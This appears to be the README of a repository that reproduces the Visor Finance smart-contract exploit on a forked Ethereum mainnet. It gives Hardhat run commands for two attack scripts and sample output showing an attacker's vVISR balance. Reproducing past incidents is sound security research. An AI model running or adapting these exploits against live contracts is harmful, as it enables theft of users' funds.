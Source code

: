 # Visor exploit

## How to run

Install nodejs/yarn first

Set up the `forking url` (in `hardhat.config.js`)

e.g. https://speedy-nodes-nyc.moralis.io/xxxxxxxxxxx/eth/mainnet/archive (
You need to apply for speedy-nodes from moralis.io)

Then run
```bash
yarn install
yarn hardhat run scripts/attack.js
```
You will see similar output later
```
Exploit contract deployed to: 0x720472c8ce72c2A2D711333e064ABD3E6BbEAdd3
Exploiting... transcation: 0xacbb306938a1746da161700ea9a76ffd0f0a5c749dd543f8572aef34b2b94ab7
exploit complete
Attacker vVISR balance:97624975.48181573
```
This means the attack is complete
> The block height of the fork is 13849006

If you want to test another vulnerability, run
```bash
yarn hardhat run scripts/attack2.js
```
## Link

* https://twitter.com/VisorFinance/status/1473306777131405314
